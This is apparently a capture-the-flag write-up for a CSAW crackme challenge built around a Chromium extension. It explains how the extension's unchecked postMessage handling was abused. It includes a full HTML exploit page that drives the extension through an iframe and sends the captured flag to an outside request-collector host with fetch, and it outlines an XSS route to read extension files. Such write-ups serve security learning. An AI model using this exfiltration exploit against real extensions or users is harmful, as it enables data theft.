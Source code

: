 # Easiest crackme - 200

## About the challenge
We were given a Chromium plugin and we were told the target had the same on their system.  
The plugin contained three different flags, progressing in difficulty.  

The plugin basically connected a crackme (inside the plugin’s folder) and attached gdb to it. When given the correct password it would give you the flag.  
We also were given a page to send a link to the target and a webservice to verify the crackme’s password.

## Getting the first flag
To get the flag, we needed to first get the password for the crackme.  
Upon inspection with Ghidra we discovered the password was “web2hard”, and when sent to the webservice (crackme.web.chal.csaw.io) the plugin responded with the fake-flag that was given us (thus confirming it was correct).

### How do we get the real flag from the target?
In a normal situation we would’ve simply created a webpage to trick the target’s plugin in spewing out the flag, but we had some limitations here.
```
"content_scripts": [
        {
            "matches": ["http://crackme.web.chal.csaw.io/"],
            "run_at": "document_start",
            "js": ["app.js"],
            "all_frames" :true
        }
    ],
    "web_accessible_resources":["api.js"],
```

Looking at the plugin’s manifest we noticed that the script responsible for the debugging was injected only on http://crackme.web.chal.csaw.io/.  
This meant we couldn’t simply make a page and trigger the plugin.  
As you can notice from the code, api.js was accessible but it didn’t work without app.js.  
We searched methods to bypass fool Chromium into thinking we were in the right page without success.

So we looked around in the code and found that the plugin sent data around using postmessage, even the flag!  
The fact that it sent data using “*” as a target origin and it didn’t check the origin of the postmessage(while listening on "message") confirmed this was the right path.
```
function send_to_app(msg) {
  return new Promise(resolve => {
    msg.id = msg_id;
    msg.from = 'page';
    messages[msg_id++] = resolve;
    window.postMessage(msg, '*');
  });
}
```

```
window.addEventListener("message", function(event) {
  let msg = event.data;
  if (msg.id === undefined || msg.from !== "extension")
    return;
  messages[msg.id](msg);
});
```

### How can we communicate via postmessage?
There was no way to communicate with other pages via this method.  
But turns out that iframes can communicate with their parent pages through window.postmessage, this meant that including the webservice with an iframe would effectively bypass the manifest’s check!  
We then wrote a webpage that would send the resulting output to our Requestbin.
```
<html>
	<head>
		<script type="text/javascript">
			window.onload = function () {
				var myiframe = document.getElementById("myiframe").contentWindow;
				msg = {};
				msg.id = 1;
				msg.from = 'page';
				msg.type = 'start';
				msg.args = ['web2hard'];
				myiframe.postMessage(msg, '*');
				setTimeout(() => {
					msg = {};
					msg.id = 2;
					msg.from = 'page';
					msg.type = 'run';
					myiframe.postMessage(msg, '*');
				}, 5000);

				console.stdlog = console.log.bind(console);
				console.logs = [];
				console.log = function () {
					console.logs.push(Array.from(arguments));
					console.stdlog.apply(console, arguments);
					fetch(`https://xxxxxxxxx.x.pipedream.net?${JSON.stringify(console.logs[1][0].data.output)}`);
				}

				window.addEventListener("message", displayMessage, false);
			}
			function displayMessage(evt) {
				console.log(evt);
			}
		</script>
	</head>
	<body>
		<iframe id="myiframe" src="http://crackme.web.chal.csaw.io/">
	</body>
</html>
```
And sure enough here’s our flag!
>Congrats! Here is your flag: flag{post_msg_delivers_flag}

## Some words on the second flag
To get the second flag we had to be able to get a XSS. Why?

Because the flag was contained in the plugin as a simple text file.  
Files inside plugins are accessible like normal URLs, so visiting  
>chrome-extension://dhmimogfeikijkmaadppammcbjflkpof/flag2.txt

would actually give us the flag.

We didn’t get the second flag during the competition because we couldn’t find where to reflect to get a XSS.  
In retrospection it was actually really easy since there was only one input (the password) and it reflected in the plugin’s debugger page (since strings appearing in the stack where printed).  
We could even control the debugger via some specific commands sent via postmessage, allowing us to break at the point we needed to print our XSS payload.  
This means that we could’ve wrote a script that simply accessed the URL and sent the results to our Requestbin.

Moral of the story: **Think of every place where your input can reflect!**
